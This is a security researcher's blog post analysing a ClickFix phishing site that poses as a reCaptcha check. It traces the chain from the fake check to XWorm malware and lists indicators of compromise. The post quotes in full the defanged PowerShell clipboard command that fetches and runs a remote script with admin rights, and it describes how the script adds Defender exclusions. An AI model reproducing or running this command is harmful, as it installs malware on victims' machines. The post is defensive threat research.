








# ClickFix

Before I get into the actual attack chain I observed, its worth knowing a bit about ClickFix. ClickFix in its current form came to be near the end of 2024, the earliest reference I can find to the technique is a McAfee article from 2024<a href="#1"><sup>1</sup></a>. This is a social engineering technique designed to trick users into running unsafe/malicious PowerShell scripts directly on their machine. ClickFix has actually been around in some form or another for a very long time, although it was previously referred to as “Pastejacking”, “Paste ‘n’ Run” or “Clipboard Hijacking”.

The infection chain itself is simple: an attacker sends you an attachment or a link to their website, you open the attachment/website and are presenting with a page which asks you to complete a reCaptcha to verify yourself or to fix an error that occurred. The reCaptcha will look something like this:<br/>

*Fig I. ClickFix on observed site.*

To the initiated, this is complete nonsense. However, to those less familiar with reCaptcha and user verification processes, this could seem very legitimate. Although the example I’ve provided here is more “Click-to-Verify”, ClickFix takes its name from numerous examples of the phish where the user is prompted to “Click here to fix!”, then is presented with the copy/paste command instructions. This can look like:<br/>

*Fig II. ClickFix on site as observed by McAfee.

# What I Found

The domain I investigated was discovered via a Censys search<a href="#2"><sup>2</sup></a> I performed while looking into ClickFix. Full disclosure, I don’t actually know the exact query I used to find this, I do not have a subscription to Censys and I did not write down the query at the time (oops). I believe it was something similar to:

`web.endpoints.http.body: “In the verification window,”`

Regardless of the exact query, if you’re hunting for this, you’ll have a good time searching for anything within a HTTP response body that contains terms like: “In the verification window”, “Press <b>Ctrl + V</b>”, “Press & hold the Windows Key”. From my search, I found only one result: hxxps[://]lbkequityexchange[.]com. The website is totally blank, except for a lonely reCaptcha box.<br/>

*Fig III. reCaptcha on the observed site.*

From limited testing, this does only seem to appear on Windows OS/User-Agents, on a few Linux tests I did, it came up totally blank, but anyway. Once you click the box to confirm you are not a robot, you will be greeted by our friend from earlier.<br/>

*Fig IV. ClickFix on observed site.*

From here, pasting the command somewhere safe like Notepad will allow for easy analysis. Checking the website source code will also let us see the exact commands placed in the clipboard.<br/>

*Fig V. main.js script in the site source.*

I can see main.js being loaded in the source code, viewing this shows us the entire script which will copy the malicious command onto our clipboard, the important part of this being:<br/>

*Fig VI. Clipboard staging JS code.*

The full command that is dumped onto our clipboard is:
```powershell
powershell -Command “Start-Process powershell -ArgumentList \’ -NoProfile -ExecutionPolicy Bypass -Command ‘; ““irm hxxps[://]lbkequityexchange[.]com/i[.]cmd -OutFile (Join-Path $env:TEMP SnipX.cmd; & (Join-Path $env:TEMP SnipX.cmd)””’; ‘\’ -Verb RunAs”’;
```
<br/>If you aren’t familiar, here’s a breakdown of what is happening here:

1. `-NoProfile`: tells PowerShell to ignore the user’s profile scripts.

2. `-ExecutionPolicy Bypass`: tells PowerShell to ignore local execution policy.

3. irm … -Outfile (Join-Path $env:TEMP SnipX.cmd)`: uses `Invoke-ResetMethod` to fetch the `i.cmd` script from the website and save it to the users `“AppData\Local\Temp”` folder named `“SnipX.cmd”`.

4. `& (Join-Path $env:TEMP SnipX.cmd)`: execute the downloaded `“SnipX.cmd”`.

5. `-Verb RunAs`: prompt for admin consent from the user.

This is where it gets interesting, if you actually detonate this (don’t try this at home), `i.cmd` outputs a whole lot of crypto jargon (apologies if it is not made up nonsense, I am not a crypto man).<br/>

*Fig VII. The `i.cmd` file*

What this file actually does, is set MS Defender exclusions for `.exe`, `.bat`, `.dll` and `.cmd` files (which is bad!). After it does this, it checks that the exclusions are set and returns a bunch of text to the user, appearing as though it is processing/verifying (both?) some sort of crypto transaction, for example, the first check will print *“Verifying the authorized transfer transaction from the interbank equity portfolio linked ledger to send funds to the receiving wallet address.”* if it has successfully set the exclusion, otherwise it prints *“The authorized transfer transaction from the interbank equity portfolio linked ledger is not being verified to send funds to the receiving wallet address.”*.

This is seemingly done to make the user feel like something meaningful is happening with their transaction. After this completes, another call is made to download a file named `“EQTRN.exe”` and save it in `“AppData\Local\Temp”` named `“lbkequity.exe”`. After this, the executable is set to hidden and immediately executed. Finally, the script sets another MS Defender exclusion for `“lbkequity.exe”` and then deletes itself.

A very quick analysis of `“EQTRN.exe”` using VirusTotal<a href="#3"><sup>3</sup></a> and AnyRun<a href="#4"><sup>4</sup></a> flags this fun file as XWorm<a href="#5"><sup>5</sup></a>. XWorm has been deployed in the past as a first stage malware to drop ransomware like LockBit. Once XWorm is deployed, it reaches out to a C2 server at winservicesconsole[.]duckdns[.]org on 45[.]154[.]98[.]252.

# OSINT

At the time of writing, I cannot find any legitimate organisation or entity named “LBK Equity Exchange”, so I assume I have stumbled onto something created to target a specific organisation or group. This can be verified from the previous main.js by checking further down in the script:<br/>

*Fig VIII. The `/verify-captcha` endpoint.*

Hitting the `“/verify-captcha”` endpoint reveals a different iteration of the script, written in VBScript. It looks like this was intended to be sent out to targets as a `.hta` file.

*Fig IX. A snip of the `/verify-captcha source code.*

Interestingly, the above snippet fetches the same `i.cmd` file from earlier, but from a different location, and with a different name (`SnipX.cmd`). This is all hosted on GitLab, hitting that link takes us directly to our responsible party: glrxk80dir<a href="#6"><sup>6</sup></a>. This individual joined GitLab in February 2025, created two snippets: PetchUpdate.cmd<a href="#7"><sup>7</sup></a> and Petch.cmd<a href="#8"><sup>8</sup></a> then vanished into the night. There are other slight differences, like the file being downloaded using `bitsadmin` rather than `Invoke-RestMethod` and a check implemented if the user rejects the admin prompt which will tell them `“Download failed! Check your internet connection.”`.

Stay safe out there.

# Indicators - Domain
- hxxps[://]lbkequityexchange[.]com/

# Indicators - URL
- hxxps[://]lbkequityexchange[.]com/i[.]cmd
- hxxps[://]lbkequityexchange[.]com/EQTRN[.]exe
- hxxps[://]lbkequityexchange[.]com/verify-captcha
- hxxps[://]gitlab[.]com/-/snippets/4802394/raw/main/SnipX[.]cmd
- hxxps[://]gitlab[.]com/-/snippets/4802258/raw/main/Petch[.]cmd
- hxxps[://]gitlab[.]com/glrxk80dir

# Indicators - Files

- `i.cmd`: fda2f3d8e7905cfcbc8deb708275638e4da02a7185314d70ff6b0851481b1033
- `SnipX.cmd`: fda2f3d8e7905cfcbc8deb708275638e4da02a7185314d70ff6b0851481b1033
- `EQTRN.exe`: 94792d6a5b22d8526dadcffb8ab451b291db4c6eaa92d8c7707aba0da4a54b68
- `lbkequity.exe`: 94792d6a5b22d8526dadcffb8ab451b291db4c6eaa92d8c7707aba0da4a54b68

# References 
<p id="1">[1] https://www.mcafee.com/blogs/other-blogs/mcafee-labs/clickfix-deception-a-social-engineering-tactic-to-deploy-malware/</p>
<p id="2">[2] https://platform.censys.io/</p>
<p id="3">[3] https://www.virustotal.com/gui/file/94792d6a5b22d8526dadcffb8ab451b291db4c6eaa92d8c7707aba0da4a54b68</p>
<p id="4">[4] https://app.any.run/tasks/4f3c58aa-fffe-4005-b82c-783ab38ab77a</p>
<p id="5">[5] https://www.splunk.com/en_us/blog/security/xworm-shape-shifting-arsenal-detection-evasion.html</p>
<p id="6">[6] https://gitlab.com/users/glrxk80dir/snippets</p>
<p id="7">[7] https://gitlab.com/-/snippets/4802394</p>
<p id="8">[8] https://gitlab.com/-/snippets/4802258</p>